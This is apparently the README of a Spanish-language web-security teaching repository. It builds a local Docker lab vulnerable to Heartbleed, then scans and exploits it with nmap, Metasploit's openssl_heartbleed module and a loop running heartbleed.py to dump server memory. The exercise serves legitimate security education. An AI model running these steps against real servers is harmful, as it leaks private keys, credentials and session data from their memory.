 # Seguridad de Aplicaciones Web

Una vez clonado, actualizar los submodulos de los que depende la prueba de concepto

```bash
git submodule init
git submodule update
```

## Pasos para levantar el entorno de pruebas

Construir la imagen en Docker:

```bash	
docker build -t heartbleed-image-websegapp .
```

Crear un contenedor en base a la imagen abriendo los puertos y exponiendo los volumenes internos:

```bash
docker run  -p 80:80 -p 443:443 -e LOG_STDOUT=true -e LOG_STDERR=true -e LOG_LEVEL=debug -v ${PWD}/data/PHP-Login:/var/www/html  -v ${PWD}/data/mysql:/var/lib/mysql  --name heartbleed-server heartbleed-image-websegapp
```

Instalar el sistema via explorador https://localhost/install y hacerlo en modo 'Automatico':

```
	- Database Hostname: 127.0.0.1
	- DB User: phplg
	- DB Password: password1234
	- DB Name: phpLogin
	- DB Table Prefix: phplg
	- Root Install Path: /var/www/html
	- Base Url: https://localhost/
	- Superadmin Username: admin
	- Superadmin Email: a@a.com
	- New Password: password1234
	- Repeat Password: password1234
```
## Verificar si el servidor es vulnerable 

Con NMAP:

```bash
nmap -sV –script=ssl-heartbleed
```

Con MSF:
```bash
msfconsole
```

Usamos el plugin para explotar la vulnerabilidad:
```bash
use auxiliary/scanner/ssl/openssl_heartbleed
```

Establecer el servidor victima y ponemos en modo dump el plugin:

```bash
set RHOSTS localhost
set verbose true
```

Explotamos la vulnerabilidad:

```bash
exploit
```

## Hacer dump de la memoria del servidor HTTP vulnerable:

Requisito: tener instalado python 2.7

Creamos el archivo donde vamos a hacer dump del servidor y vemos que va pasando en vivo:

```bash
truncate -s0 /tmp/heartbleed.out && tail -f /tmp/heartbleed.out
```

Ejecutamos el exploit cada un segundo y volcamos el contenido:

```bash
while true; do python heartbleed.py localhost >> /tmp/heartbleed.out; sleep 1; done
```

## License
[MIT](https://choosealicense.com/licenses/mit/)

